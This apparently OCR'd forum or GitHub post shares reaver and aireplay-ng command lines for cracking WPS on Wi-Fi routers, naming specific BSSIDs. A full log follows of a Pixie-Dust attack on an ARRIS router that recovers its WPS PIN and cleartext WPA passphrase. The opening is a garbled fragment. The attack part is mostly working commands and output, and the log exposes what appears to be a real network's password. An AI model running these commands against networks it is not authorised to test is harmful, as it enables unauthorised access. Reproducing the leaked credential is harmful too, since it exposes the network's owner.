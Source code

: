-A -vv or -v -v -A -vv

i have the best results with reaver , with the following commands
` reaver -i mon0 -b -c -f -v -d 0 -x 60 -A -n `,
at the same time in another terminal window aireplay-ng mon0 -1 120 -b -e


`aireplay-ng wlan0mon -1 120 -a 1C:AF:F7:CC:61:6B`

in the other windows

`reaver -i wlan0mon -c 1 -b 1C:AF:F7:CC:61:6B -d 60 --no-nacks -S --win7 -vv`

`reaver -i wlan0mon -b 1C:AF:F7:CC:61:6B -a -S -N -vv -c 1 -w -L`

`time reaver -i mon0 -c 11 -b 08:3E:0C:AD:9E:90 -K 1`
```
Reaver v1.5.2 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>
mod by t6_x <t6_x@hotmail.com> & DataHead & Soxrok2212

[+] Waiting for beacon from 08:3E:0C:AD:9E:90
[+] Associated with 08:3E:0C:AD:9E:90 (ESSID: Team A2013)
[+] Starting Cracking Session. Pin count: 0, Max pin attempts: 11000
[P] E-Nonce: e5:05:10:63:a2:30:94:fb:9a:16:07:34:26:6a:d2:fb
[P] PKE: e7:8b:fe:8e:27:11:b0:d1:21:b1:ca:91:aa:f0:52:e8:6b:57:d2:55:8e:7d:c2:6a:a2:8e:56:c9:67:8a:8c:10:c9:4a:f2:1d:e9:e5:e1:80:3d:77:df:a3:44:e9:1c:dd:73:0f:65:0b:89:67:37:7a:7e:dc:52:15:9a:fc:be:d4:a9:2b:91:95:36:52:06:82:3a:12:85:9e:87:e2:05:ea:34:c5:d5:71:58:73:7c:42:5a:d6:cc:40:8a:4a:28:1a:f6:dd:29:38:56:fc:42:bd:73:75:7d:db:14:ef:16:89:fb:a1:02:35:cb:ea:de:c1:15:c9:d3:20:a5:67:c9:b4:2c:10:35:af:c5:e2:12:33:d2:23:e8:7e:3d:62:a1:c5:0f:ea:38:7e:fb:93:4c:a9:6c:af:d9:cd:ff:08:ad:5b:c0:ca:aa:98:b8:cd:2c:6b:d2:ec:14:60:f1:13:45:bc:70:ab:09:7d:de:ca:9e:29:b0:ff:6c:54:bd:43:00:47
[P] WPS Manufacturer: ARRIS
[P] WPS Model Name: TG862G
[P] WPS Model Number: RT2860
[P] Access Point Serial Number: 12345678
[P] R-Nonce: f9:fd:ad:9b:de:78:ba:f8:a3:b4:28:e5:b4:21:0a:aa
[P] PKR: 2b:08:3e:47:7a:3e:ed:a3:c7:76:cc:a9:17:52:46:c7:fa:1d:67:87:e6:1e:3e:b9:9b:e1:4c:58:b4:18:21:50:e1:28:87:66:9f:1a:33:5d:78:d3:33:72:68:55:a7:0d:da:c5:14:94:70:b6:3e:1a:9e:5d:98:2d:af:31:58:5a:db:78:53:0c:b1:9f:25:ad:dc:d8:4d:22:21:be:e5:e1:d2:98:23:d8:30:76:e5:39:eb:cb:67:1d:bc:ff:8b:6e:96:0f:df:1e:c8:01:c5:48:18:ca:6c:4d:8a:1f:74:68:29:89:a2:dd:d7:f2:31:eb:ea:07:5b:75:97:cc:4a:36:8d:84:3f:b8:19:1c:39:2b:90:3c:a4:c1:7a:b2:6a:97:f2:93:fa:fb:22:a1:df:44:a0:a4:b6:20:dd:91:e1:98:2a:f0:b9:ac:23:f0:e9:2d:8b:ec:cf:70:59:45:a9:ff:fb:67:1f:2c:00:7b:02:63:80:b7:ec:25:34:e8:46:6d
[P] AuthKey: 6b:e5:c2:12:44:99:e4:08:21:e9:44:bb:a9:0e:ba:7e:1b:9a:0b:df:72:11:02:1e:04:fb:b0:9b:15:4a:6c:60
[P] E-Hash1: f6:63:82:13:84:4d:ec:f3:d3:a4:f6:16:e7:60:1b:b6:ed:b5:32:2b:7b:cf:5c:6d:53:1a:40:7a:d8:43:b8:1b
[P] E-Hash2: b5:15:0f:18:ef:f0:41:a7:7c:6b:91:d2:c5:4b:ea:a3:d4:21:d7:6e:85:7a:58:16:82:a1:40:33:6e:e3:ce:97
[Pixie-Dust]
[Pixie-Dust]   Pixiewps 1.1
[Pixie-Dust]
[Pixie-Dust]   [*] E-S1:       00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
[Pixie-Dust]   [*] E-S2:       00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
[Pixie-Dust]   [+] WPS pin:    42000648
[Pixie-Dust]
[Pixie-Dust]   [*] Time taken: 0 s
[Pixie-Dust]
Running reaver with the correct pin, wait ...
Cmd : reaver -i mon0 -b 08:3E:0C:AD:9E:90 -c 11 -s y -vv -p 42000648

[Reaver Test] BSSID: 08:3E:0C:AD:9E:90
[Reaver Test] Channel: 11
[Reaver Test] [+] WPS PIN: '42000648'
[Reaver Test] [+] WPA PSK: '3113foreverandever'
[Reaver Test] [+] AP SSID: 'Team A2013'

real	2m46.367s
```